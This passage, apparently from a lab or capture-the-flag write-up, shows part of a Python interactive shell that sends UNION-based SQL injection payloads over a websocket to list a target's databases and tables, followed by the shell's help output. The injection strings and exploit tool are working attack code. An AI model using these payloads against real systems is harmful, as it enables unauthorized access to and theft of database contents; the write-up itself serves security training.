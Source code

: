 ```
    def send_ws(self, params):
        self.ws.send(
            f'{{"message":"available","params":"{params}", "token": "{self.token}"}}'
        )
        data = json.loads(self.ws.recv())
        self.token = data["token"]
        return data["debug"]

    def send_connected(self, params):
        try:
            return self.send_ws(params)
        except websocket._exceptions.WebSocketConnectionClosedException:
            self.connect()
            return self.send_ws(params)

    def default(self, args):
        print(self.send_connected(args))

    def do_dbs(self, args):
        results = self.send_connected(
            "3 union select group_concat(schema_name),2 from information_schema.schemata"
        )
        print("\n".join(results.split(", ")[0].split()[1].split(",")))

    def do_tables(self, args):
        if len(args) == 0:
            print("[-] database name required. run dbs command to list databases.")
            return
        results = self.send_connected(
            f"3 union select group_concat(table_name), 2 from information_schema.tables where table_schema='{args}'"
        )
        print("\n".join(results.split(", ")[0].split()[1].split(",")))

    def do_exit(self, args):
        return True

term = Term()
term.cmdloop()

```

Now in the shell, shows additional commands:

```

injection> help

Documented commands (type help <topic>):
========================================
help

Undocumented commands:
======================
dbs  exit  tables

```
